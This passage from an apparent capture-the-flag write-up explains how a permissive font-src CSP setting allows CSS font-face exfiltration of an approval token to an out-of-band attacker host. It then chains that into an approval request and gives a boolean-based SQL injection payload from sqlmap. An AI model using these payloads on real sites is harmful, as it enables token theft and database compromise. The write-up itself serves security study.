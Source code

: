 The second roadblock is `CSP`, which limit the destination of outgoing request.

```javascript
res.setHeader(
  "Content-Security-Policy",
  "default-src 'self'; object-src 'none'; img-src 'self'; style-src 'self'; font-src 'self' *;",
);
```

Here, most of the src are set to `self`, however, the font-src is mysterically set to `'self' *`, making it possible to fetch external font, giving us the way to use this an exploit of somewhat this variant:

```css
@font-face {
  font-family: poc;
  src: url(//copn6h31buqjd8eekdhg78x3pwoh5ukep.oast.site?CODE=A);
  unicode-range: U+0041;
}

.d-none {
  display: block !important;
}

#approvalToken {
  font-family: "poc";
}
```

Basically, all we need to do it to define a new `font-face` and link it to a server we control. The key is to set the unicode-range to a single character, and if our target, namely `#approvalToken` has this character in it, we would get notified. Then we just need to define `font-face` and enumerate all characters in order to know which characters we have in the `#approvalToken`. However, how about the order of the characters in the token?

No worries, this challenge sorted the `#approvalToken` after generation, so the final order will be based on ASCII, making it sufficient for us to only know whether a character exist or not.

### Chain

After getting the token, the next step is much simpler. This time we just include a single CSS exfiltration payload for a character we know that exist. The only difference is that we change the url to the approval route, and set the id and the `approvalToken` accordingly. So this time when it requests for the font, it will just approve our CSS.

### SQLi

This last step is rather easy. Since we got SQLi (and I am pretty bad at manually testing it), I just throw it to `sqlmap` and let it do its magic. After a while it returns that this database can be exploited using boolean-based injection. Basically, you just inject something like

```sql
2,(SELECT (CASE WHEN (1484=1484) THEN 1 ELSE 1/(SELECT 0) END))
```

This is the POC `sqlmap` gives me. So it checks whether a condition holds true or not, and if not, it will throw an error. We can easily adapt it to test the name of the flag table and the content in it using queries, which would finally give us the flag.

That's it. Happy Hacking!
